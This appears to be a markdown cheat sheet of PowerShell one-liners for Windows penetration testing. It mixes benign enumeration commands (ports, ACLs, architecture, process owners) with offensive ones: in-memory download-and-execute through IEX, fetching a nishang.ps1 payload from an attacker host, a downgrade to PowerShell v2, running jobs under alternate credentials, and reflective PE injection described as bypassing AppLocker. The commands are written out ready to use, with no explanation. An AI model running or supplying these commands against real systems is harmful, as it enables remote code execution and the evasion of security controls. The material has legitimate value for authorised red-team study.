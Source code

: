 # Extract zip file
`Expand-Archive <FILE>.zip`

# Download to disk
## using .Net WebClient:
`(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)`

## using Invoke-WebRequest
`IWR '<URL>' -OutFile <FILENAME>`

# Execute powershell in memory
`(New-Object Net.WebClient).DownloadString('<URL>') | IEX`

# Get files only in a directory
`(ls -File -Recurse -Force -EA SilentlyContinue).fullname`

# Get OS architecture
`$env:processor_architecture`

# Get Process Architecture
`[Environment]::Is64BitProcess`

# Locally listening ports (TCP)
`netstat -ano -p tcp`

# Get ACL
`Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString`

# get file system access
`$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'`

# Get Process Owners
`Get-WmiObject -class win32_process | select name,@{n='owner';e={$_.getowner().user}}`

# Get .NET Version
## Paths:
`c:\windows\microsoft.net\framework`
`c:\windows\microsoft.net\framework64`
## Command:
`(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion`

# Reflective Execution (Can Bypass Applocker)
`Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))`

# CMD to powershell
`powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"`

# Start a job with alternative creds
`Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')}`

# Jump to powershell v2
`Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"`

# Get Alternate Data Streams
`$ErrorActionPreference = 'SilentlyContinue'; ls * -Recurse -Force | % {Get-Item $_ -Stream * | ? {$_.Stream -notmatch ':\$DATA|Zone\.Identifier'} |Select FileName, Stream}; $ErrorActionPreference = 'Continue'`

# View listening connections (with optional PID translation to Proc names)
`$PROCS = Get-Process; Get-NetTCPConnection -LocalAddress <LOCAL_IP> | Sort-Object LocalPort | Select-Object @{n='Process';e={$ID = $_.OwningProcess; if($PROCS){($PROCS|?{$ID -eq $_.id}).name}else{$ID}}},LocalAddress,LocalPort,RemoteAddress,RemotePort,State | Format-Table`
